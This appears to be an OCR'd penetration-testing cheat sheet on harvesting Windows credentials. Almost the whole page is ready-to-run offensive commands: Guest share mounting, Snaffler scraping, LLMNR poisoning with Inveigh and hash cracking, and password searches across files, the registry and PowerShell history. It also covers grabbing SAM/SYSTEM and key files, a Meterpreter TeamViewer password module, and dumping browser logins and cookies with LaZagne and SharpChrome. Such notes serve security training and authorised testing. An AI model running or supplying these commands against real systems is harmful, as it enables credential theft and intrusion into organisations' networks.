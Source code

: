             *   Shares
                *   `net use x: \\[HOST]\[SHARE] "[empty/password]" /u:[empty/Guest/user]`
            *   Password Scraping
                *   `Snaffler.exe -s -d [DOMAIN] -o snaffler.log -v data`
                *   `Snaffler.exe -s -i \\[HOST]\[SHARE]`
            *   LLMNR
                *   [NTLM\_Theft](https://github.com/Greenwolf/ntlm_theft)
                *   `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput`
                *   Cracking  → `hashcat -m 5600`
        *   GIT Repositories
            *   Directories → `.git` / `.gitignore`
            *   `git log --oneline` 
            *   `git status`
            *   `git show [HASH]`
            *   `git diff [HASH_1] [HASH_2]`
        *   ADS Streams
            *   `dir /R [PATH]`
            *   `Get-Item * -Stream *`
            *   `Get-Content .\[FILE] -Stream [ADS_FILE]`
        *   PS Credential Files
            *   Extensions → `.cred`, `.xml`
            *   `$credential = Import-Clixml -Path [FILE.xml]`
            *   `$credential.GetNetworkCredential().[username/password]`
        *   File Hunting
            *   Content Search
                *   `findstr /SIM /C:"[password/pass/psw/pwd/credentials][=/:/',/",]" *.[EXT_OR_*]`
            *   Sensitive Files
                *   `dir /s/b /A:-D RDCMan.settings == *.rdp == web.config == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == *.db == db.* == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *password* == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == SiteList.xml == tomcat-users.xml == *.kdbx == *.config == FreeSSHDservice.ini == unattend.* == unattended.* == *.zip == *.rar == *.xls == *.xlsx == *.doc == *.docx == NetSetup.log == *sysprep.inf == *.vnc == *.cred == *sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == confCons.xml == SAM == SYSTEM == SECURITY https-xampp.conf == my.ini == creds.* == *credentials* == *password* == pass.* == my.cnf == access.log == error.log == server.xml == Groups.xml == ConsoleHost_history.txt == credentials.db == index.dat == access_tokens.db == legacy_credentials == accessTokens.json == *.bat == _*_.ps1 == id_rsa == *.kbdx == *.sql* == *.sql == pagefile.sys == *.vhd == *.vhdx == *.vmdk == *.ppk == azureProfile.json == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == *pass*.txt == *pass*.xml == *pass*.ini == *cred* == shadow == ntuser.dat == bash.exe == wsl.exe 2>nul | findstr /v “.dll”`
        *   Powershell Logging
            *   `dir /a /s /b ConsoleHost_history.txt` / `(Get-PSReadLineOption).HistorySavePath`
            *   `dir C:\Transcripts`
            *   `Get-WinEvent -LogName "windows Powershell" | select -First 15 | Out-GridView`
            *   `Get-WinEvent -LogName "Microsoft-Windows-Powershell/Operational" | select -first 20 | Out-Gridview`
            *   `Get-Clipboard`
        *   Registry Keys
            *   `reg query [HKLM/HKCU] /f [password/pass/pwd] /t REG_SZ /s /[k/d]`
            *   `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"`
            *   `reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd"`
            *   `reg query "HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions"`
            *   `reg query "[HKLM/HKCU]\Software\Microsoft\Windows\CurrentVersion\Internet Settings"`
            *   `reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers"`
        *   TeamViewer 
            *   `cd C:\Program Files (x86)\TeamViewer` 
            *   Meterpreter → `post/windows/gather/credentials/teamviewer_passwords`
            *   [Manual Cracking](https://0xdf.gitlab.io/2020/09/05/htb-remote.html)
        *   Browser Sessions
            *   `lazagne.exe browsers`
            *   `SharpChrome.exe logins /unprotect`
            *   `Invoke-SharpChromium -Command "cookies slack.com"`